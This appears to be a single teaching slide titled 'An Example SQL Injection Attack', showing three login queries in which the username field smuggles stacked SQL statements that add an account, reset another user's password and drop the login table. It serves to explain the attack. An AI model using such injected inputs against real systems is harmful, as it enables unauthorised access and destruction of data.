

An Example SQL Injection Attack
All Queries are Possible:–
SELECT * FROM `login` WHERE `user`=‘’; INSERT INTO `login` ('user','pass') VALUES ('haxor','whatever');--’ AND `pass`=‘’
SELECT * FROM `login` WHERE `user`=‘’; UPDATE `login` SET `pass`=‘pass123’ WHERE `user`=‘timbo317’;--’ AND `pass`=‘’
SELECT * FROM `login` WHERE `user`=‘’; DROP TABLE `login`; --’ AND  `pass`=‘’

14
14